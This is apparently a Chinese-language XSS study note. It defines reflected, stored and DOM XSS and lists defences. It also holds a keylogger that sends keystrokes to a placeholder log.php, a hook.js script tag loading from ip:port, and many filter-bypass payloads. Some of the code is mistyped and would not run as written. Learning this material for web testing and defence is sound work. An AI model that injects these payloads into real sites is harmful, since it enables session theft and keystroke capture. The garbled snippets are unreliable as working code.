








# XSS

cross site script 跨站脚本攻击，攻击者往web页面或者url中插入恶意js代码，若应用程序对用户输入的内容没有过滤，正常用户访问页面的时候，嵌入在web页面中的恶意js代码执行，导致恶意攻击正常用户


漏洞位置：

1. 数据交互的地方
   - get post cookies headers方法
   - 富文本编辑器
   - 各类标签插入和自定义
2. 数据输出的地方
   - 用户资料
   - 关键词、标签、说明


### 漏洞危害

- 窃取用户cookie
- 检测键盘输入
- 客户端信息探查
- xss getshell
- 劫持用户会话
- 执行弹窗广告
- 传播蠕虫病毒、

### 漏洞防御

1. 使用xss filter（过滤客户端提交的有害信息）
2. 输入过滤 
3. 输入验证 对提交的信息有效验证
4. 输出编码  html实体代替字符

### 检测方法









#### 反射型XSS

1. 非持久性、参数型的跨站脚本，反射型XSS的JS代码，在WEB应用中的参数中，如搜索框的反射型XSS
2. 存在位置，常见于通过url传递参数的功能
3. 攻击手法：欺骗用户自己去点击链接才能触发XSS代码

#### 存储型XSS

1. 定义：持久性跨站脚本，将恶意代码写入数据库或文件中等可以永久存储的介质中
2. 存在位置：留言板、发布评论或者发布文章的地方
3. 攻击手法：通过留言板功能，将构建的XSS代码保存到数据库中，其他用户访问此页面，自动执行恶意的XSS代码，从而窃取用户的敏感数据

#### DOM型XSS

1. 概念：不经过后端，DOM-XSS漏洞是基于文档对象模型的一种漏洞，简单理解就是因为输出点在DOM。DOM-XSS通过url传入参数去控制触发。
2. 攻击手法：攻击者构造出特殊的url，其中包含恶意代码，用户打开带有恶意代码的url，用户浏览器接收到响应后解析执行，前端js取出url中的恶意代码并执行，恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作


```html
<script language="php">phpinfo()</scipt>
```




```javascript
#获取键盘记录
document.onkeypress=function(evt){//onkeypress是按下及那盘按键的事件
    evt=evt?evt:window.event;//三目运算符，为了让js代码兼容更多的浏览器
    key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);//处理键码值兼容性问题
    if(key){varhttp=newXMLHttpRequest();//XMLHttpRequest()，js用来发起网络请求
        varparam=encodeURI(key);//进行编码
        http.open(“POST”,“log.php的位置”,true);//以POST方法打开链接
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);//发送请求
    }
}
```


## :dvd:xss利用

```
<script src="http://ip:port/hook.js"><script>
访问带有勾子的页面，网站会被浏览器勾住
```


### :fu:xss绕过姿势


```javascript
1.空格使用/绕过。 img/src='#'/onerror="alert(1)"
2.回车的使用
onclick
=alert(1)
3.伪协议
href="javascript:alert(/xss/)"
src="javascript:alert(/xss/)"
4.事件利用(windows、keyboard、mouse、from、media事件)

其他事件(onkeydown,onkeyup,onclick,onerrer)
5.其余标签
svg是H5语言中的标签
<svg onload="alert(/xss/)"
<input onfocus=alert(/xss/)autofocus>获取焦点
6.大小写转换
SRc="" ONerror="alert(/xss/)"
7.对标签属性进行转码
<ahREf="javaScript:alert(/xss/)">clickme</a>
|
|
\/
<a Href="j&#97;v&#x61;script:alert(/xss/)">clickme!</a>编码
8.拆分跨站
<script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
9.双写绕过
<scr<script>ipt>
10.进制转换
<imgsrc=#onerror=eval(String.fromCharCode(97,108,101,114,116,40,34,100,101,99,105,109,97,108,34,41))>
11.jsfuck编码
```


```html
#基础
<script>alert(1)</script>
<input onchange="alert(1)">


    


<svg/onload=alert&#40;1&#41;>
    
    
onclick
=alert(1)
    
window.onerror=eval;throw'=alert\x281\x29'</script>//利用js捕获抛出错误执行弹框，Unicode编码
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script>">//利用HTML5中iframe的特点，其srcdoc属性里的代码会作为iframe中的内容显示出来，srcdoc中可以直接去写转译后的HTML片段
<svg><script>alert&#40;1&#41</script>//svg标签可直接执行实体字符即HTML转义字符，若不添加在前则包含解析script
```

 





```javascript
#变形及绕过
大小写 <ahREf="javaScript:alert(/xss/)">clickme</ a> 

引号 HTML语言中对引号的使用不敏感，但是过滤函数对引号很严格< img src="#" onerror="alert(/xss/)"/>
< img src='#' onerror='alert(/xss/)'/> 
    
左斜线[/]代替空格 <ImgsRc='#'Onerror="alert(/xss/)"/>-> 

回车 添加水平制表符和回车符，分割语句，来绕过关键字检测
一些函数不可以加回车，比如事件：onmoveover、onerror等 

对标签属性值进行转码 ASCII码、十进制编码、十六进制编码、base64编码(atob解码、btoa编码)、unicode编码等<ahREf="javaScript:alert(/xss/)">clickme</ a>-><AhREf="j&#97;v&#x61;script:alert(/xss/)">clickme!</ a> 注：可以在任何位置插入：Tab（&#9）、换行（&#10）、回车（&#13）可以在头部位置插入：SOH（&#1）、STX（&#2）
<AhREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">clickme!</ a> 其他：jsfuck编码*只能执行js代码，不能

转html代码http://www.jsfuck.com/
如<imgsrc=#onerror=alert(1)>中的alert(1) 
拆分跨站 当应用程序没有过滤XSS关键字符（如<、>）却对输入字符长度有限制的情况下，如何使用“拆分法”执行跨站脚本代码

<script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script> 

双写绕过 <scr<script>ipt> 
CSS中的变形（了解） 使用全角字符:width:expression(alert(/xss/))注释会被浏览器忽略:width:expr/*~*/ession(alert(/x~s~s/))样式表中的[\]和[\0]:<style>@import 'javasc\ri\0pt:alert("xss")';</style>
```


